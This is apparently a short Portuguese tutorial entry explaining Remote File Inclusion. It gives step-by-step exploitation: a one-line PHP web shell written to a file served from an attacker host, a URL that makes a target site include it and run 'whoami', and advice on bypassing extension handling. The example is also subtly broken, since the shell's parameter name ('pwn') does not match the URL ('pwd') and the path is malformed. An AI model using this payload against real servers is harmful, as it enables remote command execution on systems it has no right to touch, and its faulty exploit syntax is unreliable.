 # Remote File Inclusion (RFI)

A vulnerabilidade de RFI funciona da mesma forma que a LFI, mas ao invés de incluir um arquivo local na aplicação o RFI ocorre quando a aplicação tenta incluir um recurso externo na sua página.  
É possível controlar a inclusão do recurso e executar comandos remotos no servidor.

Para explorar essa vulnerabilidade, inicia um servidor web na sua máquina e crie o payload de acordo com o formato aceito pela aplicação.
`echo "<?php system($_GET['pwn']); ?>" > payload.html`

`http://www.alvo.com.br/info.php?p=http://www.hacker.com.br/&payload.html&pwd=whoami`

Em alguns casos a aplicação faz a inclusão da extensão do arquivo automáticamente. Faça testes e entenda qual o padrão de monatagem do link e realize o bypass.